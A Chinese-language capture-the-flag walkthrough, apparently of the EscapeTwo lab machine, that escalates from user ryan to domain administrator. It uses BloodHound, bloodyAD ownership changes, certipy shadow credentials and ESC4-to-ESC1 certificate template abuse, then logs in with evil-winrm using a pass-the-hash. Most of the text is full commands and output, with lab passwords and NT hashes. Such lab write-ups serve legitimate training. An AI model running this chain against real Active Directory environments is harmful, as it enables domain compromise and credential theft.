### 以 ca_svc 身份进行身份验证:Bloodhound 寻血猎犬
```
[★]$ netexec ldap dc01.sequel.htb -u ryan -p WqSZAF6CysDQbGb3 --bloodhound --collection All --dns-server 10.129.65.178
SMB         10.129.65.178   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.129.65.178   389    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
LDAP        10.129.65.178   389    DC01             Resolved collection methods: localadmin, acl, psremote, objectprops, rdp, container, dcom, group, session, trusts
LDAP        10.129.65.178   389    DC01             Done in 00M 02S
LDAP        10.129.65.178   389    DC01             Compressing output into /home/syareya55/.nxc/logs/DC01_10.129.65.178_2026-01-18_022250_bloodhound.zip
[★]$ ls /home/syareya55/.nxc/logs/DC01_10.129.65.178_2026-01-18_022250_bloodhound.zip
/home/syareya55/.nxc/logs/DC01_10.129.65.178_2026-01-18_022250_bloodhound.zip
```
#### 打开bloodhound
```
[★]$ sudo neo4j console
Directories in use:
home:         /var/lib/neo4j
config:       /etc/neo4j
logs:         /var/log/neo4j
plugins:      /var/lib/neo4j/plugins
import:       /var/lib/neo4j/import
data:         /var/lib/neo4j/data
certificates: /var/lib/neo4j/certificates
licenses:     /var/lib/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
2026-01-18 08:25:21.222+0000 INFO  Logging config in use: File '/etc/neo4j/user-logs.xml'
2026-01-18 08:25:21.237+0000 INFO  Starting...
2026-01-18 08:25:21.983+0000 INFO  This instance is ServerId{d8173e88} (d8173e88-c17d-4348-ba6f-76a2369f3935)
2026-01-18 08:25:23.041+0000 INFO  ======== Neo4j 5.26.1 ========
2026-01-18 08:25:24.428+0000 INFO  Anonymous Usage Data is being sent to Neo4j, see https://neo4j.com/docs/usage-data/
2026-01-18 08:25:24.457+0000 INFO  Bolt enabled on localhost:7687.
2026-01-18 08:25:24.982+0000 INFO  HTTP enabled on localhost:7474.
2026-01-18 08:25:24.983+0000 INFO  Remote interface available at http://localhost:7474/

打开浏览器http://localhost:7474
输入用户/密码：neo4j/neo4j

[★]$ bloodhound
输入用户/密码：neo4j/neo4j
然后upload data:选择文件夹的时候：Ctrl+H 可以看到隐藏的.nxc文件夹.nxc/logs/DC01_10.129.65.178_2026-01-18_022250_bloodhound.zip导入
搜索：sql_svc@sequel.htb并标记为拥有'Mark User as Owned'
```
#### Ryan 拥有WriteOwnerCA_SVC 的管理权：

```
 #certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.129.67.243
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd1aa3b15-25a4-cb34-9fd7-0bb897804351'
[*] Adding Key Credential with device ID 'd1aa3b15-25a4-cb34-9fd7-0bb897804351' to the Key Credentials for 'ca_svc'
[-] Could not update Key Credentials for 'ca_svc' due to insufficient access rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
```
#### 此操作失败，因为 ryan 当前不是 ca_svc 的所有者。Bloodhound 显示它是域管理员组Owns
#### 将使用BloodyAD将 ryan 设置为所有者，然后授予 ryan 完全控制权限：
```
[★]$ sudo ntpdate 10.129.72.89
2026-01-24 03:21:04.906952 (-0600) -0.401579 +/- 0.004715 10.129.72.89 s1 no-leap
[★]$ sudo su
#pipx install --force bloodyAD
  installed package bloodyad 2.5.3, installed using Python 3.11.2
  These apps are now globally available
    - bloodyAD
    - bloodyad
done! ✨ 🌟 ✨

#bloodyAD -d sequel.htb --host 10.129.72.89 -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan 
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
#bloodyAD -d sequel.htb --host 10.129.72.89 -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
[+] ryan has now GenericAll on ca_svc

#certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.129.72.89
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '5f129a79-75b9-5117-3e6e-7a36fe74b3ab'
[*] Adding Key Credential with device ID '5f129a79-75b9-5117-3e6e-7a36fe74b3ab' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '5f129a79-75b9-5117-3e6e-7a36fe74b3ab' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[-] Could not update Key Credentials for 'ca_svc' due to insufficient access rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0

[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce

 #netexec smb dc01.sequel.htb -u ca_svc -H 3b181b914e7a9d5508ea1e20bc2b7fce
SMB         10.129.72.89    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.129.72.89    445    DC01             [+] sequel.htb\ca_svc:3b181b914e7a9d5508ea1e20bc2b7fce
```
### Shell as Administrator
#### ADCS Enumeration
```
#certipy find -vulnerable -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip  10.129.72.89 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC01-CA
    DNS Name                            : DC01.sequel.htb
    Certificate Subject                 : CN=sequel-DC01-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 152DBD2D8E9C079742C0F3BFF2A211D3
    Certificate Validity Start          : 2024-06-08 16:50:40+00:00
    Certificate Validity End            : 2124-06-08 17:00:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireCommonName
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Enterprise Admins
        Full Control Principals         : SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
                                          SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```
#### which ca_svc is a member of 
#### ESC4适用于证书模板上存在弱访问控制的情况。上面的输出显示Certificate Publishers组完全控制Dunder Mifflin身份验证模板。Red&Blue Team Security的这篇文章详细介绍了如何利用这个漏洞。

#### 我将使用我对模板的控制，使其容易受到ESC1的攻击，然后利用它。

#### 从EscapeTwo发布（Certipy版本4.8.2）到本文发布（Certipy 5.0.2）期间，利用这个漏洞的命令发生了变化。
```
因为ca_svc对模板有完全的控制，我将使用以下选项使用证书使其易受ESC1攻击：

Template -用于读取和修改模板的命令
-u ca SVC -要验证的用户名
-hash <hash> -要验证的用户的哈希值
- DC -ip <ip> -目标数据中心ip
-template <模板名称> -目标模板
-target <dc主机名> -目标机器
-save-old 保存旧模板的副本以便恢复

```
#### 这个靶机时常会出现的报错：
```
#bloodyAD -d sequel.htb --host 10.129.232.128 -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
Traceback (most recent call last):
  File "/root/.local/bin/bloodyAD", line 8, in <module>
    sys.exit(main())
             ^^^^^^
  File "/root/.local/share/pipx/venvs/bloodyad/lib/python3.11/site-packages/bloodyAD/main.py", line 342, in main
    asyncio.run(amain())
  File "/usr/lib/python3.11/asyncio/runners.py", line 190, in run
    return runner.run(main)
           ^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/asyncio/runners.py", line 118, in run
    return self._loop.run_until_complete(task)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/asyncio/base_events.py", line 653, in run_until_complete
    return future.result()
           ^^^^^^^^^^^^^^^
  File "/root/.local/share/pipx/venvs/bloodyad/lib/python3.11/site-packages/bloodyAD/main.py", line 272, in amain
    output = await result
             ^^^^^^^^^^^^
  File "/root/.local/share/pipx/venvs/bloodyad/lib/python3.11/site-packages/bloodyAD/cli_modules/add.py", line 429, in genericAll
    await ldap.bloodymodify(
  File "/root/.local/share/pipx/venvs/bloodyad/lib/python3.11/site-packages/bloodyAD/network/ldap.py", line 336, in bloodymodify
    raise err
badldap.commons.exceptions.LDAPModifyException: insufficientAccessRights for CN=Certification Authority,CN=Users,DC=sequel,DC=htb (Attr) — Reason:(ERROR_ACCESS_DENIED) Access is denied.

//以及报错二

#certipy req -ca sequel-DC01-CA -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.129.232.128 -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x8009480f - CERTSRV_E_SUBJECT_DNS_REQUIRED - The Domain Name System (DNS) name is unavailable and cannot be added to the Subject Alternate name.
[*] Request ID is 8
Would you like to save the private key? (y/N) n
[-] Failed to request certificate
```
#### 报错的原因都是相同的，就是被快速刷新了，所以需要一口气，完成多条命令
```
#bloodyAD -d sequel.htb --host 10.129.232.128 -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc

#bloodyAD -d sequel.htb --host 10.129.232.128 -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
[+] ryan has now GenericAll on ca_svc

#certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.129.232.128
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c521f84f-cff9-6d36-90f8-2ff2bb816c7c'
[*] Adding Key Credential with device ID 'c521f84f-cff9-6d36-90f8-2ff2bb816c7c' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'c521f84f-cff9-6d36-90f8-2ff2bb816c7c' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce

#certipy template -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.129.232.128 -template DunderMifflinAuthentication -target dc01.sequel.htb -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'DunderMifflinAuthentication' to 'DunderMifflinAuthentication.json'
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'

#certipy req -ca sequel-DC01-CA -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.129.232.128 -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

#ls
administrator.pfx  Documents                         my_data    Videos
cacert.der         Downloads                         Pictures
ca_svc.ccache      DunderMifflinAuthentication.json  Public
```
#### Shell
```
#evil-winrm -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff -i dc01.sequel.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> dir


    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        1/25/2026   1:25 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\desktop> exit
```


